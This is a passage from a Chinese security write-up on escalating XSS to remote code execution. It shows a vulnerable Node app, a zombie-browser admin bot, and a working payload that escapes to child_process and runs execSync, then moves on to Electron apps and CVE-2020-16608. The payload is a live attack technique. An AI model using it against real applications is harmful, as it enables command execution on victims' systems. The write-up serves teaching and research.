 ```bash
        console.log("write error")
    });
    res.redirect('/view');
  });

app.listen(80, '0.0.0.0');
```

```bash
bot.js
const zombie = require("zombie")

exports.visit = async function () {
    const browser = new zombie ({
        waitDuration: 5*1000,
        localAddress: 0 
   })

    browser.setCookie({ name: 'admin', domain: '127.0.0.1', path:'/', httpOnly: 'true'})

    browser.visit("http://127.0.0.1/view",function() {
        console.log("Visited: ", "http://127.0.0.1/view")
})    
}
```

在 bot.js 里面里面使用了 zombie 这个库，并且通读代码，可以在 data.html 内容可控

```bash
<script>document.write(this.constructor.constructor("return(global.process.mainModule.constructor._load('child_process').execSync('ls / > data.html').toString())")());</script>
```

我们写一个 load child\_process 的链子即可

通过以上的几个案例不难看到这种在真实场景利用率可能会因为种种原因变得比较低

### xss2rce 今生

由于 electron 框架的提出，作为一个可以跨平台使用的桌面程序，而且以 js html 为主体，会被 chrom 渲染，大幅度的提高了他的危险性，比如经典的蚁剑 xss2rce，但因为这个洞可能大家已经看烂了，所以分析点其他的

CVE-2020–16608 是一个 markdown 编辑器

[![](assets/1707954600-fc305c7c283d952d673cb98243277203.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240203021535-0f343682-c1f7-1.png)
